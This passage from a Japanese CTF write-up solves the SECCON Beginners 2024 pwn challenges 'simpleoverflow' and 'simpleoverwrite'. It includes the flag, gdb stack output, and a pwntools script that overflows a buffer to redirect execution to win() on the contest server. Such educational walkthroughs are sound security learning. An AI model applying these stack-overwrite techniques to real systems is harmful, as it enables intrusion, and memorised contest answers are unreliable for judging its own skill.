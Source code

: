 以下のように 10 文字以上の文字列を入力するとフラグが確認できました。

```bash
$ nc simpleoverflow.beginners.seccon.games 9000
name:aaaaaaaaaa1
Hello, aaaaaaaaaa1

ctf4b{0n_y0ur_m4rk}
```

## **simpleoverwrite**

ッファオーバーフローの脆弱性を使って`main()`のリターンアドレスを書き換えて`win()` を呼ぶ問題です。

gdb でスタックの内容を確認すると以下のようになっていました。

```python
[-------------------------------------code-------------------------------------]
   0x4011fd <main+46>:	mov    edx,0x20
   0x401202 <main+51>:	mov    rsi,rax
   0x401205 <main+54>:	mov    edi,0x0
=> 0x40120a <main+59>:	call   0x401060 <read@plt>
   0x40120f <main+64>:	lea    rax,[rbp-0xa]
   0x401213 <main+68>:	mov    rsi,rax
   0x401216 <main+71>:	lea    rax,[rip+0xdfb]        # 0x402018
   0x40121d <main+78>:	mov    rdi,rax
Guessed arguments:
arg[0]: 0x0
arg[1]: 0x7fffffffde06 --> 0x0
arg[2]: 0x20 (' ')
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde00 --> 0x1000
0008| 0x7fffffffde08 --> 0x0
0016| 0x7fffffffde10 --> 0x1
0024| 0x7fffffffde18 --> 0x7ffff7c29d90 (<__libc_start_call_main+128>:	mov    edi,eax)
0032| 0x7fffffffde20 --> 0x0
0040| 0x7fffffffde28 --> 0x4011cf (<main>:	push   rbp)
0048| 0x7fffffffde30 --> 0x100000000
0056| 0x7fffffffde38 --> 0x7fffffffdf28 --> 0x7fffffffe26f ("/home/d/WorkSpace/CTF/SECCON_Beginners_CTF_2024/pwn/simpleoverwrite/simpleoverwrite/chall")
[------------------------------------------------------------------------------]
```

なので適当な 18 文字のあとに`win()`のアドレスを入力すれば良さそうです。

`win()` のアドレスは以下のコマンドで見つけられます。

```python
$ objdump -d ./chall | grep "<win>"
0000000000401186 <win>:
```

python でスクリプトを書きます。

```python
from pwn import *
r = remote("simpleoverwrite.beginners.seccon.games", 9001)

win = 0x401186
win=p64(0x0000000000401186) # p64でintをbytes型に変換

attack = b'a'*18 + win

print(r.recvuntil("input:"))
r.sendline(attack)

r.interactive() # 対話モードに入る
```
